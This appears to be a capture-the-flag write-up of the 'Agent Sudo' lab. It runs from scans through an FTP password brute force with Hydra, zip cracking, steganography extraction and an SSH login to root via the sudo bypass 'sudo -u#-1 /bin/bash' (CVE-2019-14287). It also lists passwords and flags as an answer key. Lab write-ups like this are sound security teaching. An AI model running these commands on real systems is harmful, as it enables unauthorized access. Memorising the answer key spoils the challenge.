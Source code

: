 # Agent Sudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

```
ip = 10.10.5.128
```

## Nmap

```
nmap -sC -sV -oN initial.log 10.10.5.128
```

>21/tcp open  ftp     vsftpd 3.0.3
>
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
>
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

## Task 1.

Accessing to the website I find the following text:

>Dear agents,
>
>Use your own **codename** as user-agent to access the site.
>
>From,
>Agent R 


```
nikto -h http://10.10.5.128 | tee nikto.log
```

Using **gobuster** I'm going to scan `http://10.10.5.128 /` for hidden directories or files using a wordlist and checks specified file extensions like php or txt.

```
gobuster dir -u http://10.10.5.128 / -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,sh,cgi,html,css,js,py
```

With the information found on the web I am going to try to access webpages using curl and passing the header `User-Agent`. After trying some I obtain:

```
curl "http://10.10.5.128/" -H "User-Agent: C" -L

Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 

```


### Questions.

1. How many open ports?

    >3

2. How you redirect yourself to a secret page?

    >User-Agent

3. What is the agent name?

    >chris


## Task 2.

### Questions.

Knowing the name of the agent and assuming he didn't change the password, I am goin to try to perform a Brute-Force attack with Hydra:

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.5.128

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-03 10:37:11
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.5.128:21/
[21][ftp] host: 10.10.5.128   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-03 10:38:22
```

After accesing via ftp with the credentials found I obtain three files (To_agentJ.txt, cutie.png and cute-alien.jpg) using:

```
mget *
```

In the text is said that a agent password is stored in the images. So, I am going to use `string` on the images to find something:

```
strings cutie.png

...

IEND
To_agentR.txt
W\_z#
2a>=
To_agentR.txt
EwwT
```

It seems there are files, so, I am going `binwalk` to be sure:

```
binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

There is a ZIP file in the image, so, I am going to obtain it.

```
cd _cutie.png.extracted/
ls -al

drwxrwxr-x 2 vfg27 vfg27   4096 Dec  3 11:10 .
drwxrwxr-x 4 vfg27 vfg27   4096 Dec  3 11:06 ..
-rw-rw-r-- 1 vfg27 vfg27 279312 Dec  3 11:03 365
-rw-rw-r-- 1 vfg27 vfg27  33973 Dec  3 11:03 365.zlib
-rw-rw-r-- 1 vfg27 vfg27    280 Dec  3 11:03 8702.zip
-rw-rw-r-- 1 vfg27 vfg27      0 Dec  3 11:10 To_agentR.txt
```

If I try to extract it, it asks for a password. In order to obtain the password I am going to use `JohnTheRipper`.

```
snap/john-the-ripper/current/run/zip2john > hashes_for_john.txt

snap/john-the-ripper/current/run/john hashes_for_john.txt --wordlist=/usr/share/wordlists/rockyou.txt

...

alien            (8702.zip/To_agentR.txt) 
```

Using the password obtained I obtain the contents of the ZIP file (To_agentR.txt):

>Agent C,
>
>We need to send the picture to 'QXJlYTUx' as soon as possible!
>
>By,
>Agent R

`QXJlYTUx` is a base64 encoded word. The decoded version is `Area51`.

Next, I am going to check if there is some steg info hidden in the other picture, using as passphrase `Area51`.

```
steghide extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
```

In the message extracted I find a new agent and password, so, I  try to access its user using ftp and ssh.

1. FTP password
    >crystal
2. Zip file password
    >alien
3. steg password
    >Area51
4. Who is the other agent (in full name)?
    >james
5. SSH password
    >hackerrules!

## Task 3.

### Questions.

Using ssh I manage too enter james machine. There are two files that I  transfer to my computer using `scp`.

1. What is the user flag?
    >b03d975e8c92a7c04146cfa7a5a313c7
2. What is the incident of the photo called?
    >Roswell alien autopsy
## Task 4.

In order to find how to escalate privileges I am going to use `linpeas`. Looking at the sudo version I see I can gain sudo access by typing:

```
sudo -u#-1 /bin/bash
```
Going to `/root` folder I find the last file needed.

### Questions.

1. CVE number for the escalation 
    >CVE-2019-14287
2. What is the root flag?
    >b53a02f55b57d4439e3341834d70c062
3. (Bonus) Who is Agent R?
    >DesKel
